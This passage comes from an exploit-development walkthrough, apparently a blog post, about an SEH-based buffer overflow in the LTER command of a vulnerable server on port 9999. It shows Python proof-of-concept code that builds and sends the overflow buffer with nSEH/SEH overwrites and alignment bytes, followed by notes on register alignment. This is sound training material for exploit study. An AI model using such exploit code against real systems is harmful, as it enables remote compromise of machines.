 ###### PoC code:

```term
import socket, sys, struct

alignment = ""
alignment += "\x54\x58\x54\x5B"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3515 + nseh + seh + "A" * 2 + alignment + "A" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Once the alignment is executed, it can be seen how EAX has the same value as ESP.

![](/assets/img/LTER/10.png)

##### The next step, is to turn the value of EAX near the end of the stack. The address i chose to perform the calculations is 0x017BFFFC.

